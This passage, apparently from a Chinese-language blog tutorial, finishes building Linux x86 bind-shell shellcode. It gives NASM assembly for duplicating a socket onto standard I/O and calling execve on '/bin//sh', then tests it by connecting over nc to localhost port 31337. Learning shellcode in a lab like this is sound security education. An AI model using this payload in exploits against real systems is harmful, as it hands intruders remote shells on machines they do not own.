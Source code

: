 然后复制文件描述符到标准输入输出错误：

```nasm
; dup2(connected socket, {all three standard I/O file descriptors})
  xchg eax, ebx 	; put socket fd in ebx
  push BYTE 0x2
  pop ecx
dup_loop: 		; 使用循环来将文件描述符复制
  mov BYTE al, 0x3F	; 标准输入 0
  int 0x80		; 标准输出 1
  dec ecx		; 标准错误 2
  jns dup_loop
```

最后一步是我们上一步在本地完成的shellcode，启动shell：

```nasm
; execve(const char *filename, char *const argv[], char *const envp[])
  mov BYTE al, 11
  push edx
  push 0x68732f2f
  push 0x6e69622f
  mov ebx, esp
  push edx
  mov edx, esp
  push ebx
  mov ecx, esp
  int 0x80
```

## 验证新的咒语

启动我们的实验程序：

    ~/Work/notes/shellcode ⮀ sh test.sh bind_shell.asm

不要中断它，在另一个终端中用nc连接本地31337端口

     ~/Site ⮀ ⭠ master ● ⮀ nc localhost 31337
    whoami
    reverland
    id
    uid=1000(reverland) gid=1000(reverland) groups=1000(reverland),10(wheel),27(video),35(games),70(postgres),103(vboxusers),997(wireshark)
    
虽然没有提示符，但你仍然可以和它交互。

## What' more

这些咒语其实很复杂，这篇文章只是匆匆一瞥，希望读者能喜欢。要想了解更多请参阅文末的那些魔法禁书：）

如果有任何指教、建议、意见、痛斥、嘲笑、怀疑、讥讽、不解、感谢都欢迎*留言*或者通过*[电子邮件](http://reverland.org)*告知我，我必将毫不留情的……嗯，洗耳恭听。

Happy hacking！

## 魔法禁书目录

- 善良人手册：《The Shellcoder's Handbook》
- 黑魔法：挖财宝的艺术：《Hacking：The Art of Exploitation》
- 揭秘：我没看过这本书：《Shellcoder’s programming uncovered》

法师们注意，前两个因特奈特上都有中文版的！


